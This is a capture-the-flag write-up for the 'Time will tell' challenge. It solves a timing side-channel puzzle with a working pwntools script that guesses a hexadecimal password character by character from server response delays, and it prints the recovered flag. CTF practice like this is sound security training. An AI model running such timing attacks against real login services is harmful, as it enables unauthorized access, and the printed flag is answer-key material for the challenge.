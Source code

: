 # Time will tell

**Description:**

<small>Author: @aenygma</small><br><br>A side channel timing attack. <br> Figure out the password in 90 seconds before connection terminates. <br> The password is dynamic and changes every connection session. <br>
<br><b>NOTE, the password is eight characters long and will be hexadecimal.</b> <br><br> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


**Category:** Miscellaneous

**Difficulty:** medium

**File:** [app.py](app.py)

## Solution

Since this challenge is a timing attack, I leveraged response time differences to infer the correct password character by character. The idea was to guess each character of the password and measure how long the server took to respond. A longer response time indicated a partial match, allowing to progressively build the correct password.

Using `pwntools` for connection handling and crafted this script

Used the following python script 
```python
from pwn import *
import time

HOST = 'challenge.ctf.games'
PORT = 31435
hex_chars = '0123456789abcdef'
NUM_TRIALS = 1  # 1=a , 2=aa -> better avg + longer runtime 

def measure_response_time(conn, guess):
    total_time = 0.0
    for _ in range(NUM_TRIALS):
        conn.sendline(guess.encode())
        start_time = time.perf_counter()
        
        try:
            conn.recvuntil(b': ', timeout=5)
        except EOFError:
            break
        except Exception as e:
            print(f"Error: {e}")
            break

        end_time = time.perf_counter()
        total_time += (end_time - start_time)

    return total_time / NUM_TRIALS

def find_password(conn):
    password = ''
    for position in range(8):
        best_time = 0
        best_char = ''
        for char in hex_chars:
            guess = password + char + '0' * (7 - position)
            response_time = measure_response_time(conn, guess)
            print(f"Trying {guess}: {response_time:.4f} seconds")
            if response_time > best_time:
                best_time = response_time
                best_char = char
        password += best_char
        print(f"Found character {position + 1}: {best_char}")
    return password

# Main execution block
conn = remote(HOST, PORT)
data = conn.recvuntil(b': ', timeout=5)
print("Server says:")
print(data.decode())

password = find_password(conn)
print(f"Password found: {password}")

conn.sendline(password.encode())
try:
    response = conn.recvall(timeout=5).decode()
except EOFError:
    response = ''
print("Server response:")
print(response)
conn.close()
```

Running the script allowed to derive the correct pasword and received the flag of `flag{ab6962e29ed608c0710dbf2910f358d5}`  
![alt text](image.png)
